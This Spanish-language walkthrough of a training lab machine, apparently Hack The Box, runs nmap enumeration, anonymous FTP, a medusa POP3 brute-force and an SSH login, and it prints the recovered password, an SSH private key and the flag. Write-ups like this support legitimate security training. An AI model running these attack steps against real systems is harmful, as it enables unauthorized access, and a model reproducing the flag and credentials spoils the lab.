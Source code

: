 # Práctica Final: Medio 🐧

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**

![Ports.PNG](./assets/Medio/01-Nmap.PNG)

Vemos un servicio `unknown` así que usaremos nmap para descubrir a fondo cada servicio.

```bash
nmap -sCV -p22,53,110,995,2121,30021 [IP] -oN versions
```

**Output**

![Ports.PNG](./assets/Medio/02-Versions.PNG)


---

1. Nos logueamos en el serivicio `FTP` en el puerto 30021 como un usuario `anonymous`

   * `ftp [IP] -p 30021`

* Vemos al usuario `simon` y tiene un archivo `mynotes.txt`

![Ports.PNG](./assets/Medio/03-FTP.PNG)

* Nos descargamos el archivos usando **`get mynotes.txt`**

---

2. El archivos `mynotes.txt` contiene posibles contraseñas para el usuario **simon**, usaremos `medusa` para realizar **fuerza bruta** y verificar si la contraseña existen en el archivo `mynotes.txt`

* `medusa -u simon -P mynotes.txt -h [IP] -M pop3 -s`

**Output**
```
ACCOUNT FOUND: [pop3] Host: [IP] User: simon Password: 8Ns8j1b!23hs4921smHzwn [SUCCESS]
```

---

3. Ya poseemos credenciales válidas para el **servicio POP3** `simon:8Ns8j1b!23hs4921smHzwn`

* Accedemos al servicio y leemos el único correo

```
From: Admin <root@inlanefreight.htb>

Hi,
Here is your new key Simon. Enjoy and have a nice day..

 -----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAlwAAAAdzc2gtcn
 NhAAAAAwEAAQAAAIEN11i6S5a2WTtRlu2BG8nQ7RKBtK0AgOlREm+mfdZWpPn0HEvl92S4
 4W1H2nKwAWwZIBlUmw4iUqoGjib5KvN7H4xapGWIc5FPb/FVI64DjMdcUNlv5GZ38M1yKm 
 w5xKGD/5xEWZt6tofpgYLUNxK62zh09IfbEOORkc5J9z2jUpEAAAIITrtUA067VAMAAAAH c3NoLXJzYQAAAIEN11i6S5a2WTtRlu2BG8nQ7RKBtK0AgOlREm+mfdZWpPn0HEvl92S44W 1H2nKwAWwZIBlUmw4iUqoGjib5KvN7H4xapGWIc5FPb/FVI64DjMdcUNlv5GZ38M1yKmw5 
 xKGD/5xEWZt6tofpgYLUNxK62zh09IfbEOORkc5J9z2jUpEAAAADAQABAAAAgQe3Qpknxi 6E89J55pCQoyK65hQ0WjTrqCUvt9oCUFggw85Xb+AU16tQz5C8sC55vH8NK9HEVk6/8lSR
 Lhy82tqGBfgGfvrx5pwPH9a5TFhxnEX/GHIvXhR0dBlbhUkQrTqOIc1XUdR+KjR1j8E0yi
 ZA4qKw1pK6BQLkHaCd3csBoQAAAEECeVZIC1Pq6T8/PnIHj0LpRcR8dEN0681+OfWtcJbJ
 hAWVrZ1wrgEg4i75wTgud5zOTV07FkcVXVBXSaWSPbmR7AAAAEED81FX7PttXnG6nSCqjz
 B85dsxntGw7C232hwgWVPM7DxCJQm21pxAwSLxp9CU9wnTwrYkVpEyLYYHkMknBMK0/QAA
 AEEDgPIA7TI4F8bPjOwNlLNulbQcT5amDp51fRWapCq45M7ptN4pTGrB97IBKPTi5qdodg
 O9Tm1rkjQ60Ty8OIjyJQAAABBzaW1vbkBsaW4tbWVkaXVtAQ== 
 -----END OPENSSH PRIVATE KEY-----
```

---

4. Tenemos un llave id_rsa **privada**, pero si nos logueamos con las credenciales `simon:8Ns8j1b!23hs4921smHzwn` en el servicio `SSH` nos dejará

* `ssh simon@[IP]`

---

5. Mostramos la **flag** 🏴

```
simon@lin-medium:~$ cat flag.txt 
HTB{1qay2wsx3EDC4rfv_M3D1UM}
```
